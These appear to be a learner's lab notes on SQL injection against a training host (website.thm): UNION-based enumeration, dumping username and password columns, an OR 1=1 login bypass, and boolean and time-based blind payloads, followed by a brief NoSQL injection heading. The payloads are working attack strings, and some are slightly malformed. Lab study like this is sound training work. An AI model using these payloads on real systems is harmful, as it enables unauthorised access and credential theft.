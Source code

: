 

## I-SQL Injection
A-
	1-scenario
		`https://website.thm/blog?id=1` <== id=1, each blog entry has a unique ID number
			sql>`SELECT * from blog where id=1 and private=0 LIMIT 1;`
	2-scenario
		`https://website.thm/blog?id=2;--` <== article ID 2 is still locked as private, so it cannot be viewed on the website.
			sql>`SELECT * from blog where id=2;-- and private=0 LIMIT 1;`
				or
			sql>`SELECT * from blog where id=2;--`
B- In-Band SQLi
	1-we need to do is return data to the browser without displaying an error message
		`https://website.thm/article?id=0 UNION SELECT 1`
	2-we'll get the database name that we have access to
		`https://website.thm/article?id=0 UNION SELECT 1,database()`
	3-Our next query will gather a list of tables that are in this database.
		`https://website.thm/article?id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = '$database_name'`
	4-We can utilise the information_schema database again to find the structure of this table using the below query.
		`https://website.thm/article?id=0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = '$Table_name'`
	5-We can use the username and password columns for our following query to retrieve the user's information.
		`https://website.thm/article?id=0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM $table_name`
C-Blind SQLi
	1-Authentication Bypass
		`' OR 1=1;--`
	2-Boolean Based -brutforce-
		a-you'll receive a **true** response that confirms the database name begins,then you move on to the next character of the database name until you find another true response
			`admin123' UNION SELECT 1,2,3 where database() like '$brutforce%';--`
		b-You'll finally end up discovering a table in the sqli_three database named users, which you can confirm by running the following username payload
			`admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = '$table_name' and table_name like '$brutforce%';--`
		c-we search the **columns** table where the database_name, the table_name, and the column name and you need to start to brutforce again
			`admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = '$database_name' and table_name='$table_name' and COLUMN_NAME like '$brutforce%';
		d-First, you'll need to discover a valid username, which you can use the payload below
			`admin123' UNION SELECT 1,2,3 from $table_name where username like '$brutforce%`
		f-Now you've got the username.You can concentrate on discovering the password. The payload below shows you how to find the password
			`admin123' UNION SELECT 1,2,3 from $table_name where username='admin' and password like '$brutforce%`
	3-Time-Based
		-The same principe of "Boolean Based -brutforce-"
		"https://website.thm/analytics?referrer='admin123' UNION SELECT SLEEP($set_time_to_response),2 from $Table_name where $column_name='admin' and password like '$brutforce%
## II-NO SQL Injection
### Objectives
- Understand what NoSQL is
- Understand how NoSQL databases work, store data, and are interfaced with
- Learn about the different types of NoSQL injection attacks
- Learn how to practically exploit a NoSQL injection vulnerability
### MongoDB